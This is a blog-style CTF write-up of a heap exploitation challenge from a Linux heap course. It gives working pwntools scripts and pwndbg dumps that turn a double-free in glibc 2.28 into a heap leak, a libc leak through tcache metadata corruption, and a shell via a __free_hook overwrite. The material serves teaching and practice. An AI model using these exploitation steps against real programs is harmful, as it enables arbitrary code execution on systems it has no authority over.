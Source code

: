 ```yaml
---
layout: post
title:  "Tcache troll"
date:   2024-03-23 20:01:22 +0100
categories: jekyll update
---
```

Tcache troll is ctf style challenge binary from wonderful udemy course "Linux Heap Exploitation".
Our goal is to exploit this binary to get shell.
Let's start with checking enabled protections:
{% highlight ruby %}
ady@heap-lab:~/heaplab2/challenge-tcache_troll$ checksec tcache_troll
[*] '/home/ady/heaplab2/challenge-tcache_troll/tcache_troll'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'../.glibc/glibc_2.28'
{% endhighlight %}

Important things to note:
1. ASLR and NX enabled
2. glibc version 2.28 means tcache is enabled, but without double free protection

ASLR (address space layout randomization) means that program sections such as heap, stack, etc load address would be randomized. It makes our job slightly harder, because we cannot rely on any hardcoded addresses.

Challenge name together with glibc version used suggest that attack like tcache dup would be useful. Let's keep that in mind and explore what challenge bin gives us.
After starting challenge binary we are greeted by this menu:
{% highlight console %}
ady@heap-lab:~/heaplab2/challenge-tcache_troll$ ./tcache_troll 

===============
|   HeapLAB   |  CHALLENGE: Tcache Troll
===============

1) malloc 0/8
2) free 0/5
3) read
4) quit
{% endhighlight %}

Options are pretty self explanatory:
Malloc uses glibc malloc to allocate up to 1024 bytes of memory and copy provided data into it. Address returned by malloc is saved and can be used by other functions (each alloc get next index starting from zero)
Free deallocate selected chunk by idx.
Read reads 8 bytes of memory by idx.

Finding bug was fairly easy - program doesn't check for double free allowing us to free same memory multiple times. As mentioned before this allows us to use attack such as tcache dup to get arbitrary code execution. Because target was compiled with ASLR we need to leak libc address, so we could 'call' libc functions, such as system.
My first idea was to somehow dup chunk linked into unsorted bin and read fwd pointer to main arena. That wasn't possible due to tcache and limited amount of calls to free. With only 5 calls we are unable to use all 7 tcache slots to free chunk into.

After some pondering I remembered that tcache metadata, including number of allocated block for given size is kept on heap (in first 0x250 bytes sized chunk).
What if we overwrite size field so chosen slot will look like filled. Next deallocation should avoid tcache and be linked into other bin.

So plan of attack looks like this:
1. Leak heap address
2. Overwrite tcache metadata to convince glibc that specific tcache slot is full, then free duplicated chunk into unsorted_bin, leaking libc address
3. Use tcache dup to overwrite __free_hook with system then free chunk with `/bin/sh\0` to get shell

Let's start with step 1:
First let's allocate and free two 0x20 sized chunk, then look into heap with gdb:
{% highlight bash %}
pwndbg> vis

0x563bcc836000	0x0000000000000000	0x0000000000000251	........Q.......
0x563bcc836010	0x0000000000000002	0x0000000000000000	................
0x563bcc836020	0x0000000000000000	0x0000000000000000	................
0x563bcc836030	0x0000000000000000	0x0000000000000000	................
0x563bcc836040	0x0000000000000000	0x0000000000000000	................
0x563bcc836050	0x0000563bcc836280	0x0000000000000000	.b..;V..........
0x563bcc836060	0x0000000000000000	0x0000000000000000	................
0x563bcc836070	0x0000000000000000	0x0000000000000000	................
0x563bcc836080	0x0000000000000000	0x0000000000000000	................
0x563bcc836090	0x0000000000000000	0x0000000000000000	................
0x563bcc8360a0	0x0000000000000000	0x0000000000000000	................
0x563bcc8360b0	0x0000000000000000	0x0000000000000000	................
0x563bcc8360c0	0x0000000000000000	0x0000000000000000	................
0x563bcc8360d0	0x0000000000000000	0x0000000000000000	................
0x563bcc8360e0	0x0000000000000000	0x0000000000000000	................
0x563bcc8360f0	0x0000000000000000	0x0000000000000000	................
0x563bcc836100	0x0000000000000000	0x0000000000000000	................
0x563bcc836110	0x0000000000000000	0x0000000000000000	................
0x563bcc836120	0x0000000000000000	0x0000000000000000	................
0x563bcc836130	0x0000000000000000	0x0000000000000000	................
0x563bcc836140	0x0000000000000000	0x0000000000000000	................
0x563bcc836150	0x0000000000000000	0x0000000000000000	................
0x563bcc836160	0x0000000000000000	0x0000000000000000	................
0x563bcc836170	0x0000000000000000	0x0000000000000000	................
0x563bcc836180	0x0000000000000000	0x0000000000000000	................
0x563bcc836190	0x0000000000000000	0x0000000000000000	................
0x563bcc8361a0	0x0000000000000000	0x0000000000000000	................
0x563bcc8361b0	0x0000000000000000	0x0000000000000000	................
0x563bcc8361c0	0x0000000000000000	0x0000000000000000	................
0x563bcc8361d0	0x0000000000000000	0x0000000000000000	................
0x563bcc8361e0	0x0000000000000000	0x0000000000000000	................
0x563bcc8361f0	0x0000000000000000	0x0000000000000000	................
0x563bcc836200	0x0000000000000000	0x0000000000000000	................
0x563bcc836210	0x0000000000000000	0x0000000000000000	................
0x563bcc836220	0x0000000000000000	0x0000000000000000	................
0x563bcc836230	0x0000000000000000	0x0000000000000000	................
0x563bcc836240	0x0000000000000000	0x0000000000000000	................
0x563bcc836250	0x0000000000000000	0x0000000000000021	........!.......
0x563bcc836260	0x0000000000000000	0x0000000000000000	................	 <-- tcachebins[0x20][1/2]
0x563bcc836270	0x0000000000000000	0x0000000000000021	........!.......
0x563bcc836280	0x0000563bcc836260	0x0000000000000000	`b..;V..........	 <-- tcachebins[0x20][0/2]
0x563bcc836290	0x0000000000000000	0x0000000000020d71	........q.......	 <-- Top chunk
{% endhighlight %}

We see chunk containing tcache at top of heap at address 0x563bcc836000. Next are bins sizes, one byte per bin.
At 0x563bcc836000 lies 0x20 sized bin - it contains ptr to first free chunk in that bin, which in turn points to next free chunk,
forming linked list of free chunks.

If we free same chunk twice and then allocate new one with same size it will be allocated from tcache, but still considered part of tcache fwd list.
After freeing it again, libc will link it into list, writing fwd ptr to itself into it's user data.
Because it's duplicated and we freed only one end, we can use other to read it, leaking heap address :)

Following pwntools scripts shows that:
{% highlight python %}
dup = malloc(0x18, b"A"*8)
free(dup)
free(dup)

leak = malloc(0x18, b"B"*8)
free(dup)

heap = u64(read(leak)) - 0x260 # 0x10 bytes of chunk header + 0x250 byets of tcache chunk
log.info(f"heap addr - 0x{heap:x}")
{% endhighlight %}

That gives us heap addr:
{% highlight console %}
...
[*] heap addr - 0x556eba5d0000
...
{% endhighlight %}

We can verify that with gdb:
{% highlight console %}
pwndbg> vmmap 0x556eba5d0000
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x556eb9202000     0x556eb9203000 rw-p     1000   2000 /home/ady/heaplab2/challenge-tcache_troll/tcache_troll
►   0x556eba5d0000     0x556eba5f1000 rw-p    21000      0 [heap] +0x0
    0x7fb97920b000     0x7fb9793b7000 r-xp   1ac000      0 /home/ady/heaplab2/.glibc/glibc_2.28/libc-2.28.so
{% endhighlight %}

Step 2:
We can keep using our duplicated chunk to perform tcache dup attack - we allocate new chunk and set it data to target we want to overwrite.
Next allocation will unlink our chunk from tcache list, treating our data as fwd ptr and writing it to head of bin.
Succeeding allocation will be served from that bin, giving us chunk starting at target data - we can use it to set size field of 0x90 bin to 7 (which means that bin is full)
After that we just need to free chunk and it will avoid tcache and be linked into unsorted bin - it's first qword will contain address of bin in main_arena. We can use it to calculate libc address.

Also we had to add guard chunk before dup chunk, to avoid consolidation with top chunk and change chunk sizes to 0x90, so it will be freed into unsorted bin instead of fastbin.

{% highlight python %}
dup = malloc(0x88, b"A"*8)
guard = malloc(0x18, b"G"*8)
free(dup)
free(dup)

leak = malloc(0x88, b"C"*8)
free(dup)
heap = u64(read(leak)) - 0x260
log.info(f"heap @ 0x{heap:x}")

#tcache dup
malloc(0x88, pack(heap+0x10)) #target addr
malloc(0x88, "YYYY")
malloc(0x88, p8(0)*7 + p8(7)) #served from target, overwriting size field

free(dup)

unsortedbin = u64(read(leak))
unsorted_offset = libc.sym.main_arena + 0x58 + 0x8
libc.address = unsortedbin - unsorted_offset
log.info(f"libc @ 0x{libc.address:x}")
{% endhighlight  %}


Step 3:
At this point it should be easy to wrap things up - just use tcache dup again to overwrite libc._free_hook.
Unfortunately at this point we have one call to free and two to malloc - not enough for this attack.

Instead we could use our write to tcache metadata. We can write fake ptr into bin, and allocate from it, getting chunk overlapping address we want to write to.
The only problem is that we don't have libc address at that time, but we can setup another overwrite into other tcache bin (let's say 0x20) and then allocate from it after getting libc address.
Rest is fairly simple - we can use that write address of libc.system into libc.__free_hook. Next call free on chunk with "/bin/sh\0" data gets us shell.

Following pwntools scripts wraps everything up:
{% highlight python %}
dup = malloc(0x88, b"A"*8)
guard = malloc(0x18, "/bin/sh\0")
free(dup)
free(dup)

leak = malloc(0x88, "C")
free(dup)
heap = u64(read(leak)) - 0x260
log.info(f"heap @ 0x{heap:02x}")

malloc(0x88, pack(heap+0x10))
malloc(0x88, "YYYY")
malloc(0x88, p8(0)*7 + p8(7) + p8(0)*56 + pack(0) * 7 + pack(heap+0x50))

free(dup)

unsortedbin = u64(read(leak))
unsorted_offset = libc.sym.main_arena + 0x58 + 0x8
libc.address = unsortedbin - unsorted_offset
log.info(f"libc @ 0x{libc.address:02x}")

malloc(0x88, pack(libc.sym.__free_hook))
malloc(0x18, pack(libc.sym.system))
free(guard)
{% endhighlight  %}
